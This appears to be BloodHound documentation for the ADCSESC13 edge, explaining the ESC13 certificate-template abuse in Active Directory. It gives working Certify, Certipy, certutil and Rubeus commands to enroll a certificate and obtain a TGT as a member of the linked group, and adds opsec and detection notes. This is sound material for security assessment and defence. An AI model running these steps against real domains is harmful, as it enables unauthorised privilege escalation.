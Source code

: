```yaml
---
title: ADCSESC13
description: "The ADCSESC13 edge indicates that the principal has the privileges to perform the ADCS ESC13 abuse against the target AD group. The principal has enrollment rights on a certificate template configured with an issuance policy extension."
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


 The issuance policy has an OID group link to an AD group. The principal also has enrollment permission for an enterprise CA with the necessary template published. This enterprise CA is trusted for NT authentication and chains up to a root CA for the forest. This setup allows the principal to enroll a certificate that the principal can use to obtain access to the environment as a member of the group specified in the OID group link.

## Abuse Info

An attacker may perform this attack in the following steps:

### Step 1: Request enrollment in the affected template

On Windows, use Certify to request enrollment in the affected template, specifying the affected certification authority:

```bash
Certify.exe request /ca:rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA /template:"ESC13"
```

On Linux, use Certipy to request enrollment in the affected template, specifying the affected enterprise CA:

```bash
certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC13

```

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

### Step 2: Create PFX format of certificate (Windows only)

Save the certificate as cert.pem and the private key as cert.key.

Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```

### Step 3: Request a ticket granting ticket (TGT)

On Windows, use Rubeus to request a TGT from the domain, specifying the attacker identity, the PFX-formatted certificate created in Step 2, and the certificate password:

```bash
Rubeus asktgt /user:attacker /domain:forestroot.com /certificate:cert.pfx /password:asdf /ptt
```

On Linux, use Certipy to request a TGT from the domain, specifying the certificate created in Step 1 and the IP of a domain controller:

```bash
certipy auth -pfx john.pfx -dc-ip 172.16.126.128
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy of that certificate in its issued certificates store. Defenders may analyze those issued certificates to identify illegitimately issued certificates and identify the principal that requested the certificate.

## References

This edge is related to the following MITRE ATT&CK technique:

* [Abuse Elevation Control Mechanism](https://attack.mitre.org/techniques/T1548/)

### Abuse info references

* [ADCS ESC13 Abuse Technique](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)
* [Authentication Mechanism Assurance for AD DS in Windows Server 2008 R2 Step-by-Step Guide](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd378897(v=ws.10)?redirectedfrom=MSDN)
* [Use Authentication Mechanism Assurance (AMA) to secure administrative account logins](https://www.gradenegger.eu/en/using-authentication-mechanism-assurance-ama-to-secure-the-login-of-administrative-accounts/)
* [Certified Pre-Owned - Abusing Active Directory Certificate Services](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
